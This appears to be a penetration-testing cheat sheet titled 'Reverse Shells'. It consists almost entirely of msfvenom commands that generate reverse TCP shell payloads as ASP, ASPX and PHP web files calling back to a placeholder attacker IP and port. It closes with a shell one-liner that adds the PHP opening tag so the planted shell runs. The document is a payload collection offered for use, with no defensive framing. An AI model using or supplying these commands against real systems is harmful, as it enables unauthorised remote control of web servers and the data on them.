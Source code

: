 # Reverse Shells

## 01 - ASP

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x64.asp
```

## 02 - ASPX

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx
```

## 03 - PHP

PHP reverse callback shell

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php
```

PHP with perl code reverse callback shell

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php
```

After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard shell.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```